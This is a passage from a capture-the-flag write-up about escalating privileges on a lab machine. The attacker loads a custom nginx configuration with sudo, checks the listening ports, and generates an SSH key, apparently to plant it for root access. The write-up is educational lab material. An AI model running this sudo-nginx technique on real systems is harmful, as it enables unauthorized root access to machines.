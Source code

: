 We can set a custom `nginx` configuration by specifying the file we created using the `-c` flag.

```
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo nginx -c /tmp/privesc.conf
nginx: [emerg] bind() to 0.0.0.0:1337 failed (98: Unknown error)
nginx: [emerg] bind() to 0.0.0.0:1337 failed (98: Unknown error)
nginx: [emerg] bind() to 0.0.0.0:1337 failed (98: Unknown error)
nginx: [emerg] bind() to 0.0.0.0:1337 failed (98: Unknown error)
nginx: [emerg] bind() to 0.0.0.0:1337 failed (98: Unknown error)
nginx: [emerg] still could not bind()
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ss -tlpn
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                         
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*                                   
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*                                   
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*                                   
LISTEN 0      511          0.0.0.0:1337       0.0.0.0:*                                   
LISTEN 0      511          0.0.0.0:1338       0.0.0.0:*                                   
LISTEN 0      511          0.0.0.0:443        0.0.0.0:*                                   
LISTEN 0      511          0.0.0.0:7777       0.0.0.0:*                                   
LISTEN 0      4096               *:5672             *:*    users:(("java",pid=947,fd=144))
LISTEN 0      4096               *:61613            *:*    users:(("java",pid=947,fd=145))
LISTEN 0      50                 *:37549            *:*    users:(("java",pid=947,fd=26)) 
LISTEN 0      50                 *:61614            *:*    users:(("java",pid=947,fd=148))
LISTEN 0      4096               *:61616            *:*    users:(("java",pid=947,fd=143))
LISTEN 0      128             [::]:22            [::]:*                                   
LISTEN 0      4096               *:1883             *:*    users:(("java",pid=947,fd=146))
LISTEN 0      50                 *:8161             *:*    users:(("java",pid=947,fd=154))
```

Let's generate an SSH key on our attacker machine.

```
$ ssh-keygen -f broker
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in broker
Your public key has been saved in broker.pub
The key fingerprint is:
SHA256:PiOl25+r67hFgJmFpkwc/pTQmc7cMUdSWu4L6DfOa20 kunal@kali
The key's randomart image is:
+---[RSA 3072]----+
| .oo +oo+        |
| .o.**o=.        |
| o.**.o+.        |
|  oo+..o         |
|    o . S        |
|   .   * .       |
|    . =.*        |
|     +.BEo .     |
|     .B==++.     |
+----[SHA256]-----+
```
